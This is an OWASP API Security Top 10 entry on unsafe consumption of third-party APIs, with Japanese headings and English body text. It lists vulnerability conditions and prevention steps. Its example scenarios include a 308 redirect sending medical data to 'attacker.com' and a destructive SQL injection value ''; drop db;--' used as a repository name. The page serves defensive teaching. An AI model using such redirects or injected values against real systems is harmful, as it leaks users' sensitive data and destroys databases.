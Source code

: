 API10:2023 API の安全でない使用 (Unsafe Consumption of APIs)
============================================================

| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
| - | - | - |
| API 依存 : 悪用難易度 **2** | 普及度 **2** : 検出難易度 **1** | 技術的影響 **3** : ビジネス依存 |
| Developers tend to trust but not verify in their endpoints which interact with external or third-party APIs. Successful exploitation of security flaws in these APIs can impact those relying on them. | Usually, API integrations rely on weaker security requirements such as those regarding transport security, authentication/authorization, and input validation and sanitization. | Exposure of sensitive information to unauthorized actors and many kinds  of injections are common issues. |

## その API は脆弱か？

Developers tend to trust data received from third-party APIs more than user input. 
This is especially true for APIs offered by well-known companies. 
Because of that, developers tend to adopt weaker security standards, for instance, in regards to input validation and sanitization.


The API might be vulnerable if:

* Interacts with other APIs over an unencrypted channel;
* Does not properly validate and sanitize data gathered from other APIs prior  to processing it or passing it to downstream components;

* Blindly follows redirections;
* Does not limit the number of resources available to process third-party  services responses;

* Does not implement timeouts for interactions with third-party services;

## 攻撃シナリオの例

### シナリオ #1

An API relies on a third-party service to enrich user provided business addresses. 
When an address is supplied to the API by the end user, it is sent to the third-party service and the returned data is then stored on a local SQL-enabled database.



Bad actors use the third-party service to store an SQLi payload associated with a business created by them. 
Then they go after the vulnerable API providing specific input that makes it pull their "malicious business" from the third-party service. 
The SQLi payload ends up being executed by the database, exfiltrating data to an attacker's controlled server.



### シナリオ #2

An API integrates with a third-party service provider to safely store sensitive user medical information. 
Data is sent over a secure connection using an HTTP request like the one below:


```
POST /user/store_phr_record
{ "genome": "ACTAGTAG__TTGADDAAIICCTT…" }
```

Bad actors found a way to compromise the third-party API and it starts responding with a 308 Permanent Redirect to requests like the previous one.


```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Since the API blindly follows the third-party redirects, it will repeat the exact same request including the user's sensitive data, but this time to the attacker's server.



### シナリオ #3

An attacker can prepare a git repo named `'; drop db;--`.

Now, when an integration from an attacked application is done with the malicious repo, an injection payload is used on an application that builds an SQL query believing the repo's name is safe input.



## 防止方法

* When evaluating service providers, assess their API security posture.
* Ensure all API interactions happen over a secure communication channel (TLS).
* Always validate and properly sanitize data received from integrated APIs  before using it.

* Maintain an allowlist of well-known locations integrated APIs may redirect  yours to: do not blindly follow redirects.



## 参考資料

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### その他

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html

